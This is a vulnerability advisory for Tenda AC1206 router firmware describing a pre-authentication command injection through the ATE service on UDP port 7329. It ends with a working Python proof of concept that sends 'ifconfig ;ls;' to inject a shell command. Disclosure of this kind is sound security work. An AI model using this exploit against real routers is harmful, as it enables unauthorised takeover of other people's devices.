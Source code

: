 # Description

Tenda AC1206 ate_ifconfig_set has pre-authentication command injection

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

V15.03.06.23 and earlier 

# details

When accessing `url:/goform/ate`, `TendaAte` will be called

![2024-10-04_173619](2024-10-04_173619.png)

The `TendaAte` function creates a thread and calls `ate_main_handle`

![2024-10-04_173913](2024-10-04_173913.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

When `command` is `ifconfig`, the `ate_ifconfig_set` function is entered, in which the `arg` passed in by the user is not checked, and a command injection exists

![2024-10-04_173320](2024-10-04_173320.png)

# POC

```py
import socket
import os

os.system('curl http://192.168.0.10/goform/ate')

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'ifconfig ;' + command + b';'

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```

![2024-10-04_184329](2024-10-04_184329.png)
